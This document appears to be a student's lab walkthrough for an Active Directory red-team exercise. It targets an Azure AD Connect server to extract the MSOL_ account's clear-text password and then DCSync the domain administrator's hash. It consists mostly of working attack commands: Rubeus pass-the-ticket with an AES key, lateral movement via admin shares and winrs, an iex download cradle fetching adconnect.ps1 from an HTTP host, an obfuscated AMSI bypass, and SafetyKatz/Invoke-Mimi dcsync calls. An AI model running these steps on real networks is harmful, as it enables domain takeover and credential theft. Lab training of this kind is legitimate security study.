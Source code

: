 
Task 

• Find out the machine where Azure AD Connect is installed. 
• Compromise the machine and extract the password of AD Connect user in clear-text.
• Using the AD Connect user's password, extract secrets from us-dc and techcorp-dc


We can find out the machine where Azure AD Connect is installed by looking at the Description of special account whose name begins with MSOL_.


Using the Active Directory module after loading it from InvisiShell:

```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

![[Pasted image 20250321150727.png]]

Recall that we already have administrative access to us-adconnect as helpdeskadmin. With that access, we can extract credentials of MSOL_16fb75d0227d account in clear-text. We will use the adconnect.ps1 script for that.

Connect to us-adconnect as helpdeskadmin. Run the below command from an elevated shell on the student VM to start a cmd.exe as helpdeskadmin:

```
echo %Pwn% asktgt
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:us.techcorp.local /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

In the new process, run the following commands to copy InvisiShell on us-adconnect machine and use it:

```
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-adconnect\C$\Users\helpdeskadmin\Downloads\InShellProf.dll /Y
```

```
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-adconnect\C$\Users\helpdeskadmin\Downloads\RunWithRegistryNonAdmin.bat /Y
```

```
winrs -r:us-adconnect cmd
```

```
RunWithRegistryNonAdmin.bat
```


Now we have a PowerShell session from InvisiShell ready on us-adconnect. Next, host adconnect.ps1 on a local web server and run the below commands on us-helpdesk to extract credentials of MSOL_ account. Note that we would still need to run an AMSI bypass as the adconnect.ps1 runs a new PowerShell process when executed:

```
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.139/adconnect.ps1')
```

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
username : MSOL_16fb75d0227d
password : 70&n1{p!Mb7K.C)/USO.a{@m*%.+^230@KAc[+sr}iF>Xv{1!{=/}}3B.T8IW- {)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYf
```

Now, we can use this password to run DCSync attacks against the target domain (techcorp.local in present case). Run the below command from an elevated shell on student VM:

```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

![[Pasted image 20250321164233.png]]

in the new process

```
echo %Pwn% lsadump::dcsync
```

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe - args "%Pwn% /user:techcorp\administrator /domain:techcorp.local" "exit"
```

Note that the runas command need not be executed from an elevated shell, we did that as SafetyKatz checks if it is running from a high integrity process even if the command – DCSync – does not need high integrity process. We can execute the same attack without needing administrator privileges on the student VM using the below commands:

```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

In the new process, run the following commands for DCSync:


```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimi.ps1
```

```
Invoke-Mimi -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
```

![[Pasted image 20250321164541.png]]



